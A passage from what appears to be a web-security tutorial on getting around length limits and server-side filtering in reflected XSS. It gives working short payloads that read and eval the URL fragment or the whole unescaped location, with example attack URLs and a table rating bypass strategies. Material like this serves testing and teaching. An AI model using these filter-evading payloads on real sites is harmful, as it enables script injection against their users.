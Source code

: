Since the **hash is not sent to the server**, it bypasses all server-side filtering.

---

### ⚔️ Example:

#### Reflected XSS Injection:

```html
<script>eval(location.hash.slice(1))</script>
```

✅ Only **45 bytes** — perfect for tight limits.

#### Full URL:

```
http://target.com/vuln?message=<script>eval(location.hash.slice(1))</script>#alert(1)
```

* The payload in the `message` param is reflected into the page.
* The browser sees this:

  ```html
  <script>eval(location.hash.slice(1))</script>
  ```
* The script grabs everything after the `#` and executes it as JS.

---

### ⚠️ Bonus: Even Shorter Version (Using `unescape`)

```
<script>eval(unescape(location))</script>
```

#### Why It Works:

This version:

* Decodes `%XX` encoded characters in the entire `location` string
* Turns the full URL into valid JS

#### Example:

```
http://vuln.com/xss?msg=<script>eval(unescape(location))</script>#%0Aalert(1)
```

* `%0A` → newline → ends `//` comment
* `http:` + `//` becomes a JS label and a comment
* `alert(1)` is outside the comment, and it runs

---

## 🔥 Summary Table

| Bypass Strategy       | Core Idea                               | Strength |
| --------------------- | --------------------------------------- | -------- |
| Shrink payload        | Use shorter syntax and small hostnames  | ⭐⭐       |
| Multi-field injection | Combine fragmented inputs across fields | ⭐⭐⭐⭐     |
| DOM-based injection   | Load full payload from fragment         | ⭐⭐⭐⭐⭐    |

---